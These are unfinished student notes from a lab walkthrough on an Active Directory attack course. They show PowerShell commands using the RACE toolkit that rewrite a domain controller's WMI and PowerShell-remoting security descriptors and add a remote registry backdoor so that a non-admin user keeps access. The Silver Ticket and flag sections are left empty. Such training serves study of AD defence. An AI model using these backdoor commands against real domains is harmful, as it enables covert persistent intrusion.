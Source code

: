 ```yaml
---
icon: vial
---
```


# 13 - Learning Object1️3️---

## Tasks



1 - Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access

2 - Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI

Flag 22 \[dcorp-dc] - SDDL string that provides studentx same permissions as BA on root\cimv2 WMI namespace. Flag value is the permissions string from (A;CI;Permissions String;;;SID) 🚩

## Solutions

### 1 - Modify security descriptors on dcorp-dc to get access using PowerShell remoting and WMI without requiring administrator access

Remembering that once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges.

So, run as Domain Administrator the following commands to modify the host security descriptors for WMI on the DC to allow student867 access to WMI using RACE toolkit:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\RACE.ps1
Set-RemoteWMI -SamAccountName student867 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Now, go to a normal student867 shell for checking if we're able to execute WMI queries on the DC:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\RACE.ps1
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>



```
Set-RemotePSRemoting -SamAccountName student867 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```





```
Invoke-Command -ScriptBlock{$env:username} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```







```
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student867 -Verbose
```









### 2 - Retrieve machine account hash from dcorp-dc without using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI









```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Powerview.ps1
```



```bash
```





### Flag 22 \[dcorp-dc] - SDDL string that provides studentx same permissions as BA on root\cimv2 WMI namespace. Flag value is the permissions string from (A;CI;Permissions String;;;SID) 🚩















